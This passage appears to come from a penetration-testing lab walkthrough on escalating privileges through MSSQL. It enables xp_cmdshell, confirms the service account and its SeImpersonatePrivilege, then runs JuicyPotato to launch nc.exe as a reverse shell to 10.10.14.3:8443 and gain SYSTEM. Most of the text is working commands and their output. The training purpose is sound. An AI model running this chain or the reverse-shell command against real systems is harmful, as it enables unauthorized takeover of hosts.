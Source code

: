 #### Enabling xp_cmdshell

```c
SQL> enable_xp_cmdshell

[*] INFO(WINLPE-SRV01\SQLEXPRESS01): Line 185: Configuration option 'show advanced options' changed from 0 to 1. Run the RECONFIGURE statement to install.
[*] INFO(WINLPE-SRV01\SQLEXPRESS01): Line 185: Configuration option 'xp_cmdshell' changed from 0 to 1. Run the RECONFIGURE statement to install
```

#### Confirming Access

```c
SQL> xp_cmdshell whoami

output                                                                             

--------------------------------------------------------------------------------   

nt service\mssql$sqlexpress01
```

#### Checking Account Privileges

```c
SQL> xp_cmdshell whoami /priv

output                                                                             

--------------------------------------------------------------------------------   
                                                                    
PRIVILEGES INFORMATION                                                             

----------------------                                                             
Privilege Name                Description                               State      

============================= ========================================= ========   

SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled   
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled   
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled    
SeManageVolumePrivilege       Perform volume maintenance tasks          Enabled    
SeImpersonatePrivilege        Impersonate a client after authentication Enabled    
SeCreateGlobalPrivilege       Create global objects                     Enabled    
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled   
```

#### Escalating Privileges Using JuicyPotato

```c
SQL> xp_cmdshell c:\tools\JuicyPotato.exe -l 53375 -p c:\windows\system32\cmd.exe -a "/c c:\tools\nc.exe 10.10.14.3 8443 -e cmd.exe" -t *

output                                                                             

--------------------------------------------------------------------------------   

Testing {4991d34b-80a1-4291-83b6-3328366b9097} 53375                               
                                                                            
[+] authresult 0                                                                   
{4991d34b-80a1-4291-83b6-3328366b9097};NT AUTHORITY\SYSTEM                                                                                                    
[+] CreateProcessWithTokenW OK                                                     
[+] calling 0x000000000088ce08
```
